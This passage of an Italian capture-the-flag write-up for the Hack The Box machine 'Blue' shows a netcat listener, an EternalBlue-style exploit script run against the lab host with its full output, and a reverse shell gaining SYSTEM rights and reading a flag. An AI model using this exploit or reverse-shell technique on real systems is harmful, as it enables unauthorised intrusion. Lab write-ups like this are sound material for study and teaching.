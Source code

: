 Ci mettiamo in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali/htb/blue]
└─# nc -lnvp 4444    
listening on [any] 4444 ...
```

Siamo pronti a lancire l'exploit

```bash
┌──(root㉿kali)-[/home/kali/htb/blue]
└─# python2 42315.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8002bdbba0
SESSION: 0xfffff8a012828660
FLINK: 0xfffff8a00805a048
InParam: 0xfffff8a00809915c
MID: 0x1807
unexpected alignment, diff: 0x-3ffb8
leak failed... try again
CONNECTION: 0xfffffa8002bdbba0
SESSION: 0xfffff8a012828660
FLINK: 0xfffff8a0080ab088
InParam: 0xfffff8a0080a515c
MID: 0x1803
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Opening SVCManager on 10.10.10.40.....
Creating service zQeE.....
Starting service zQeE.....
The NETBIOS connection with the remote host timed out.
Removing service zQeE.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```

Otteniamo cosi un shell con i massimi privilegi 

```
┌──(root㉿kali)-[/home/kali/htb/blue]
└─# nc -lnvp 4444    
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system


C:\Users\haris\Desktop>type user.txt
type user.txt
2333342657b9923bb22b8357c1882967

C:\Users\Administrator\Desktop>type root.txt
type root.txt
```